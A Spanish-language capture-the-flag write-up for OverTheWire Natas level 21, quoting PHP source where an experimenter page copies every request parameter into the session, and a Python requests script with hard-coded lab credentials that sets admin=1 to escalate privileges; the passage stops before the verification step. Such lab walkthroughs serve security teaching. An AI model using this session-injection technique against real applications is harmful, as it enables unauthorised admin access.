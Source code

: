 <figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

La función `print_credentials()` en la página principal verifica si `$_SESSION` tiene el parámetro `admin` y si su valor es igual a 1.

```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
} else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
}
```

En la página "experimenter", si `$_REQUEST` contiene la clave `submit`, todos los atributos contenidos se guardan en `$_SESSION`.

```php
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
    }
}
```

El ataque se define de la siguiente manera: Al pasar `admin=1` en la página de "experimenter", podremos obtener la contraseña para Natas22.

```python
import requests

# URL objetivo para enviar el valor admin=1
target = 'http://natas21-experimenter.natas.labs.overthewire.org'
auth = ('natas21', 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH')

# Enviamos el valor admin=1 en la solicitud
params = dict(debug='', submit='', admin=1)  
cookies = dict()
r = requests.get(target, auth=auth, params=params, cookies=cookies)
phpsessid = r.cookies['PHPSESSID']
print(r.text)

# URL objetivo para verificar el resultado
```